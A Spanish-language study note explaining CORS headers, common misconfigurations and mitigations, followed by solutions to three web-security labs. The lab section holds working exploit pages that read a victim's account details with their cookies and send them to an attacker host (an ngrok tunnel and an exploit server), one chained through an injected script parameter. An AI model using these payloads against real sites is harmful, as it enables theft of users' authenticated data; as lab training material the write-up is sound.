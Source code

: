 -- -
### ¿Qué es CORS?
CORS es un mecanismo que usa cabeceras HTTP adicionales para dar a un servidor la capacidad de indicar cualquier origen (dominio, esquema o puerto) que tiene permiso para acceder a sus recursos. Por defecto, los navegadores web imponen una política de mismo origen (Same-Origin Policy), que restringe cómo los recursos en una página web se pueden solicitar desde otro origen.

### Funcionamiento de CORS
Cuando una aplicación web realiza una solicitud HTTP a un dominio diferente (cross-origin request), el navegador puede enviar una solicitud preliminar (preflight request) con el método HTTP OPTIONS para verificar si el servidor permite la solicitud. El servidor responde con las cabeceras apropiadas:

- `Access-Control-Allow-Origin`: Indica qué orígenes tienen permiso para acceder al recurso. Puede ser un valor específico (e.g., `https://ejemplo.com`) o un asterisco (`*`) para permitir cualquier origen.
- `Access-Control-Allow-Methods`: Especifica los métodos HTTP permitidos (e.g., `GET`, `POST`, `PUT`).
- `Access-Control-Allow-Headers`: Indica los encabezados que se pueden usar en la solicitud.
- `Access-Control-Allow-Credentials`: Si está presente y es `true`, permite que se envíen credenciales (cookies, autenticaciones HTTP).

### Vulnerabilidad de CORS
Una configuración incorrecta de CORS puede permitir que un atacante realice solicitudes maliciosas desde un origen no confiable. Aquí algunos escenarios comunes de vulnerabilidad:

1. **Permitir todos los orígenes** (`Access-Control-Allow-Origin: *`): Permitir cualquier origen puede exponer datos sensibles si el recurso es accesible sin restricciones adecuadas.
2. **Falta de validación adecuada**: No validar correctamente los orígenes permitidos puede permitir que orígenes no autorizados accedan a recursos sensibles.
3. **Allow-Credentials con Allow-Origin**: Usar `Access-Control-Allow-Credentials: true` junto con `Access-Control-Allow-Origin: *` es peligroso porque permite que cualquier sitio envíe credenciales, lo cual compromete la seguridad.

### Ejemplo de configuración insegura
```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```
Esta configuración es insegura porque permite que cualquier origen envíe solicitudes autenticadas, lo cual puede llevar a ataques de tipo CSRF.

### Ejemplo de configuración segura
Para una configuración más segura, especifica orígenes de confianza y evita el uso de `*` cuando se permiten credenciales:
```http
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type
Access-Control-Allow-Credentials: true
```
Aquí, solo `https://example.com` tiene permiso para acceder al recurso y solo mediante métodos `GET` y `POST`.

### Mitigación
Para mitigar las vulnerabilidades de CORS:
- **Restringe orígenes permitidos**: Limita los orígenes a aquellos que son absolutamente necesarios.
- **Valida cabeceras**: Asegúrate de que las cabeceras CORS sean configuradas correctamente.
- **Auditoría y pruebas**: Regularmente audita y prueba la configuración de CORS para detectar posibles fallos.

En resumen, CORS es una herramienta poderosa para controlar el acceso a recursos web entre diferentes orígenes, pero debe configurarse cuidadosamente para evitar introducir vulnerabilidades que puedan ser explotadas por atacantes.

### Cabeceras

Claro, aquí tienes la información en un formato más estructurado:

### Cabeceras Relacionadas con CORS y sus Funciones
```http 
1. 1. Access-Control-Allow-Origin
   - Función: Especifica qué orígenes pueden acceder al recurso.
   - Ejemplo: `Access-Control-Allow-Origin: https://ejemplo.com`

2. Access-Control-Allow-Credentials
   - Función: Indica si las credenciales (cookies, cabeceras de autenticación HTTP) pueden incluirse en las solicitudes a este recurso.
   - Ejemplo: `Access-Control-Allow-Credentials: true`

3. Access-Control-Allow-Methods
   - Función: Especifica los métodos HTTP permitidos cuando se accede al recurso.
   - Ejemplo: `Access-Control-Allow-Methods: GET, POST, PUT`

4. Access-Control-Allow-Headers
   - Función: Indica qué cabeceras HTTP pueden ser usadas en la solicitud.
   - Ejemplo: `Access-Control-Allow-Headers: Content-Type, Authorization`

5. Access-Control-Expose-Headers
   - Función: Indica qué cabeceras pueden ser expuestas al navegador.
   - Ejemplo: `Access-Control-Expose-Headers: Content-Length, X-Kuma-Revision`

6. Access-Control-Max-Age
   - Función: Especifica el tiempo en segundos que los resultados de una solicitud preflight pueden ser almacenados en caché.
   - Ejemplo: `Access-Control-Max-Age: 3600`

7. Access-Control-Request-Method
   - Función: Usada en solicitudes preflight, indica el método HTTP que será usado en la solicitud real.
   - Ejemplo: `Access-Control-Request-Method: DELETE`

8. Access-Control-Request-Headers
   - Función: Usada en solicitudes preflight, indica las cabeceras HTTP que serán enviadas con la solicitud real.
   - Ejemplo: `Access-Control-Request-Headers: X-PINGOTHER, Content-Type`

9. Origin
   - Función: Indica el origen de la solicitud. Esta cabecera es enviada automáticamente por el navegador en solicitudes cross-origin.
   - Ejemplo: `Origin: https://malicioso.com`

Estas cabeceras son fundamentales para la implementación de políticas de seguridad CORS en aplicaciones web, permitiendo o restringiendo el acceso a recursos dependiendo del origen de las solicitudes y las credenciales incluidas.
```
### Diagrama de flujo
[Atacante] --> [Envía script a la víctima]
           ↓
[Víctima] --> [Ejecuta script en navegador]
           ↓
[Navegador] --> [Envia solicitud a servidor objetivo]
             --> [Incluye cookies de la víctima]
           ↓
[Servidor objetivo] --> [Responde con datos sensibles]
           ↓
[Navegador] --> [Envía datos al servidor del atacante]
           ↓
[Servidor del atacante] --> [Recibe datos exfiltrados]


# Solucion a labs: 
-- -
## Lab 1:

```http
Request:
Origin: https://gustavo.com

Response:
Access-Control-Allow-Origin: https://gustavo.com
Access-Control-Allow-Credentials: true

```

```html
<html>
<body>
<script>
var xhr = new XMLHttpRequest();
var url = "https://0a1a007704d32a8281f59fa800410046.web-security-academy.net";

xhr.onreadystatechange = function () {
    if (xhr.readyState == XMLHttpRequest.DONE){
        fetch("/log?key=" + xhr.responseText)
    }
}

xhr.open('GET', url + "/accountDetails", true);
xhr.withCredentials = true;
xhr.send(null);
</script>
</body>
</html>

```

## Lab 2:


```http
Request: 
Origin: null

Response:
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

```html
<!DOCTYPE html>
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://0a1a007704d32a8281f59fa800410046.web-security-academy.net';

            xhr.onreadystatechange = function () {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch('https://b475-2800-810-505-690-46cf-1896-a812-4ce0.ngrok-free.app/log?key=' + xhr.responseText)
                }
            }

            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>"></iframe>
    </body>
</html>

```
## Lab 3:
```http
Request: 
Origin: https://gustavo.0ac500df0432c047807b53a900c600b4.web-security-academy.net

Response:
Access-Control-Allow-Origin: https://gustavo.0ac500df0432c047807b53a900c600b4.web-security-academy.net
Access-Control-Allow-Credentials: true
```

```html
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            // Redirecciona al usuario a una URL que inyecta un script malicioso en el parámetro productId
            document.location = "http://stock.0ae100a2049e0fb4817d20f300b800b1.web-security-academy.net/?productId=<script>var xhr = new XMLHttpRequest(); var url = 'https://0ae100a2049e0fb4817d20f300b800b1.web-security-academy.net'; xhr.onreadystatechange = function() { if (xhr.readyState == XMLHttpRequest.DONE) { fetch('https://exploit-0a44000f04a30fd581bd1f2101e00026.exploit-server.net/log?key=' + xhr.responseText) } }; xhr.open('GET', url + '/accountDetails', true); xhr.withCredentials = true; xhr.send(null);<%2c/script>&storeId=1"
        </script>
    </body>
</html>

```